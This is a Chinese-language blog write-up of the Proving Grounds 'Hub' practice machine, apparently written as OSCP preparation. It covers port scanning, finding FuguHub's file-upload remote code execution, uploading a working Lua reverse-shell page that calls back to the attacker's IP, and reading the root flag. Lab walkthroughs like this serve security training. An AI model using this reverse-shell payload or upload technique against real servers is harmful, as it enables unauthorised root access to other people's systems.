

# ProvingGrouds Hub WriteUp


第6台，Linux系统，难度Easy，名称 Hub


```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP]
└─$ sudo nmap -n -r --min-rate=3500 -p- -sSV --script default,vuln 192.168.240.25 -T4

┌──(xavier㉿kali)-[~/Desktop/OSCP]
└─$ sudo nmap -n -r --min-rate=3500 -F -sSV 192.168.240.25 -T4
```


结果

```sh
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5&#43;deb11u1 (protocol 2.0)
80/tcp   open  http     nginx 1.18.0
9999/tcp open  ssl/http Barracuda Embedded Web Server
```


9999端口的http服务是个FuguHub 8.4，要设置管理员账户，使用如下：

```
admin@admin.com
admin
password
```

8.1版本有个RCE历史漏洞。

```shell
┌──(xavier㉿kali)-[~]
└─$ searchsploit FuguHub
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
FuguHub 8.1 - Remote Code Execution                 | multiple/webapps/51550.py
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

试下还能不能用

用管理身份登录后台，根据漏洞原理，通过Web端进行操作，上传文件，数据包如下；

```http
POST /fs/ HTTP/1.1
Host: 192.168.240.25:9999
Cookie: tzone=--480; z9ZAqJtI=75107ab8eed3d3b2a7d77a3e
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml&#43;xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------427009261933411581191473311562
Content-Length: 742
Origin: https://192.168.240.25:9999
Referer: https://192.168.240.25:9999/fs/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------427009261933411581191473311562
Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;rev.lsp&#34;
Content-Type: application/octet-stream

&lt;h2&gt; Check ur nc listener on the port you put in &lt;h2&gt;

&lt;?lsp if request:method() == &#34;GET&#34; then ?&gt;
	&lt;?lsp
local host, port = &#34;192.168.45.197&#34;, 443
local socket = require(&#34;socket&#34;)
local tcp = socket.tcp() 
local io = require(&#34;io&#34;) tcp:connect(host, port); 
while 						true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, &#34;r&#34;) local s = f:read(&#34;*a&#34;) f:close() tcp:send(s) if status == &#34;closed&#34; then break end end tcp:close()
	?&gt;
&lt;?lsp else ?&gt;
	Wrong request method, goodBye!
&lt;?lsp end ?&gt;

-----------------------------427009261933411581191473311562--
```




```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/6-Hub]
└─$ curl https://192.168.240.25:9999/rev.lsp -k  

┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/6-Hub]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.240.25] 43348
id
uid=0(root) gid=0(root) groups=0(root)
hostname 
debian
ipconfig
ifconfig
ens192: flags=4163&lt;UP,BROADCAST,RUNNING,MULTICAST&gt;  mtu 1500
        inet 192.168.240.25  netmask 255.255.255.0  broadcast 192.168.240.255
        inet6 fe80::250:56ff:feba:85a3  prefixlen 64  scopeid 0x20&lt;link&gt;
        ether 00:50:56:ba:85:a3  txqueuelen 1000  (Ethernet)
        RX packets 474  bytes 59756 (58.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 277  bytes 69440 (67.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73&lt;UP,LOOPBACK,RUNNING&gt;  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10&lt;host&gt;
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 104  bytes 9754 (9.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 104  bytes 9754 (9.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

pwd
/var/www/html
ls /root/
email4.txt
proof.txt
cat /root/proof.txt
aebbd4df648371dc7572e5ed5589a98b
```


---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/provinggrounds-hub/  

